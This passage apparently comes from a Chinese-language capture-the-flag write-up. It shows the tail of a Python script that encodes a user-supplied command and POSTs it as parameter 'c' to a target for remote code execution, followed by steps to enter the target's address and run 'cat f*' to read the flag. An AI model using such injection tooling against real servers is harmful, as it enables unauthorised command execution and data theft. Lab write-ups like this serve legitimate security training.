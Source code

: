 ```python
            break
        s2 = input("[+] your command：")
        #根据用户输入的功能和命令，调用 action 函数生成相应的参数。
        param=action(s1) + action(s2)
        #构造一个字典 data，包含 POST 请求的参数，其中 'c' 的值是经过 URL 解码的参数。
        data={
            'c':urllib.parse.unquote(param)
            }
        #发送 POST 请求到指定的 URL，带上构造好的参数。
        r=requests.post(url,data=data)
        print("\n[*] result:\n"+r.text)

main()



```

将其运行

![image-20231216123813707](照片/image-20231216123813707.png)

写入靶机地址

![image-20231216123822137](照片/image-20231216123822137.png)

cat f*

![image-20231216123840802](照片/image-20231216123840802.png)

